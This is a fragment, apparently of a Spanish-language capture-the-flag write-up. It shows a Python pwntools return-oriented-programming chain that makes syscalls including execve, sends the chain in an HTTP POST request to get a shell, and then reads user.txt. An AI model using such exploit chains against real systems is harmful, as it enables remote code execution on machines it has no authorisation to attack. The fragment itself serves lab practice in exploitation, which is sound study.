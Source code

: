 ```python
payload += p64(movrax)
payload += p64(poprdi)
payload += p64(4)
payload += p64(poprsi)
payload += p64(2)
payload += p64(0)
payload += p64(syscall)
payload += p64(poprdi)
payload += p64(59)
payload += p64(movrax)
payload += p64(poprdi)
payload += p64(stack_leak-0x66)
payload += p64(poprsi)
payload += p64(0)
payload += p64(0)
payload += p64(poprdx)
payload += p64(0)
payload += p64(0)
payload += p64(syscall)
r.send(b"POST "+payload)
r.sendline(b"")
r.interactive()
```
al ejecutar lo anterior podemos obtener una shell y leer user.txt

![](https://github.com/dplastico/dplastico.github.io/raw/main/_posts/img/2023-07-26-15-54-47.png)
